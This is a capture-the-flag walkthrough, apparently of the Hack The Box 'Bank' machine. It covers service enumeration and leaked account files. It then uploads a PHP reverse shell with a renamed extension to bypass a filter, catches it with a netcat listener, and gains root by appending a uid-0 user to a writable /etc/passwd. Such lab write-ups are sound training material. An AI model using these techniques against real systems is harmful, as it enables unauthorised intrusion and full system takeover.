







Target: 10.10.10.29

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.29

Nmap scan report for 10.10.10.29
Host is up (0.088s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.29


adding dns to /etc/hosts
```
10.10.10.29	bank.htb
```

checking bank.htb



ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://bank.htb/FUZZ

uploads                 [Status: 301, Size: 305, Words: 20, Lines: 10]
assets                  [Status: 301, Size: 304, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 301, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 288, Words: 21, Lines: 11]
balance-transfer        [Status: 301, Size: 314, Words: 20, Lines: 10]
```

checking /balance-transfer




checking file
```
$ strings 0a0b2b566c723fce6c5dc9544d426688.acc     

++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+
===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

looking for suspicous file/s



```
$ strings 68576f20e9732f1b2edc4df5b8533230.acc   

--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+
===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

accessing website using found account



checking support.php



inspecting support.php



### Findings:Looking for attack vectors

Upload a php reverse shell with a file extention of .htb to have RCE.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.htb
```
<snip>
$ip = '<ip>';  		// CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded trustme.htb



```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Priv Escalations:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@bank:/$ cd var/www/bank

www-data@bank:/var/www/bank$ ls -la

total 132
drwxr-xr-x 6 www-data www-data  4096 Jan 11 14:18 .
drwxr-xr-x 4 root     root      4096 Jan 11 14:18 ..
drwxr-xr-x 7 www-data www-data  4096 Jan 11 14:18 assets
drwxr-xr-x 2 root     root     77824 Jan 11 14:18 balance-transfer
-rw-r--r-- 1 www-data www-data   230 May 28  2017 bankreports.txt
-rw-r--r-- 1 root     root      1056 May 29  2017 delete-ticket.php
drwxr-xr-x 2 www-data www-data  4096 Jan 11 14:18 inc
-rw-r--r-- 1 www-data www-data  7730 May 28  2017 index.php
-rw-r--r-- 1 www-data www-data  3317 May 28  2017 login.php
-rw-r--r-- 1 www-data www-data   692 May 28  2017 logout.php
-rw-r--r-- 1 www-data www-data  4436 May 29  2017 support.php
drwxr-xr-x 2 www-data www-data  4096 May 19 15:30 uploads

www-data@bank:/var/www/bank$ cat bankreports.txt

+=================+
| HTB Bank Report |
+=================+

===Users===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 2
Transactions: 8
Balance: 1.337$
```

looking for suspicious file/s
```
www-data@bank:/var/www/bank$ cd inc

www-data@bank:/var/www/bank/inc$ ls

footer.php  header.php  ticket.php  user.php

www-data@bank:/var/www/bank/inc$ cat user.php

<?php
/*
        Copyright CodingSlime 2017

        Licensed under the Apache License, Version 2.0 (the "License");
        you may not use this file except in compliance with the License.
        You may obtain a copy of the License at

            http://www.apache.org/licenses/LICENSE-2.0

        Unless required by applicable law or agreed to in writing, software
        distributed under the License is distributed on an "AS IS" BASIS,
        WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
        See the License for the specific language governing permissions and
        limitations under the License.
*/


class User {

        function login($email, $password){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $email = $mysql->real_escape_string($email);
                $password = md5($password);
                $result = $mysql->query("SELECT * FROM users WHERE email = '$email' AND password = '$password'");
                if($result->num_rows <= 0){
                        return false;
                }else{
                        return true;
                }
        }

        function totalTickets($username){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $username = $mysql->real_escape_string($username);
                $result = $mysql->query("SELECT * FROM tickets WHERE creator = '$username'");
                return $result->num_rows;
        }

        function getUsername($email){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $email = $mysql->real_escape_string($email);
                $result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
                $row = $result->fetch_assoc();
                return $row['username'];
        }

        function getBalance($username){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $username = $mysql->real_escape_string($username);
                $result = $mysql->query("SELECT * FROM users WHERE username = '$username'");
                $row = $result->fetch_assoc();
                return $row['balance'];
        }

        function getCreditCardNumber($username){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $username = $mysql->real_escape_string($username);
                $result = $mysql->query("SELECT * FROM creditcards WHERE username = '$username'");
                return $result->num_rows;
        }

        function getCreditCards($username){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $username = $mysql->real_escape_string($username);
                $result = $mysql->query("SELECT * FROM creditcards WHERE username = '$username'");
                $final = "";
                while($row = $result->fetch_assoc()){
                        $final .= "<tr>";
                        $final .= "<td>" . $row['type'] . "</td>";
                        $final .= "<td>" . $row['number'] . "</td>";
                        $final .= "<td>" . $row['date'] . "</td>";
                        $final .= "<td>" . $row['cvv'] . "</td>";
                        $final .= "<td>" . $row['balance'] . " $</td>";
                        $final .= "</tr>";
                }
                return $final;
        }
}
```

enumerating users
```
www-data@bank:/var/www/bank$ cat /etc/passwd | grep bash             

root:x:0:0:root:/root:/bin/bash
chris:x:1000:1000:chris,,,:/home/chris:/bin/bash
```

testing for password reuse
```
www-data@bank:/var/www/bank$ su - chris

su: Authentication failure

www-data@bank:/var/www/bank$ su - root

su: Authentication failure
```

enumerating with linpeas
```
www-data@bank:/dev/shm$ ./linpeas.sh

[+] Permissions in init, init.d, systemd, and rc.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                       
                                                                                                                   
[+] Hashes inside passwd file? ........... No
[+] Writable passwd file? ................ /etc/passwd is writable                                                 
[+] Credentials in fstab/mtab? ........... No
[+] Can I read shadow files? ............. No                                                                      
[+] Can I read opasswd file? ............. No                                                                      
[+] Can I write in network-scripts? ...... No                                                                      
[+] Can I read root folder? .............. No 
```

crating foo password
```
$ perl -le 'print crypt("foo", "aa")'

aaKNIEDOaueR6
```

exploiting writeable /etc/passwd
```
www-data@bank:/dev/shm$ echo 'groot:aaKNIEDOaueR6:0:0:root:/root:/bin/bash' >> /etc/passwd
            
www-data@bank:/dev/shm$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
chris:x:1000:1000:chris,,,:/home/chris:/bin/bash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:112::/var/cache/bind:/bin/false
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
groot:aaKNIEDOaueR6:0:0:root:/root:/bin/bash
```

```
www-data@bank:/dev/shm$ su - groot

root@bank:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
cat /home/chris/user.txt

<redacted>
```

```
cat /root/root.txt

<redacted>
```
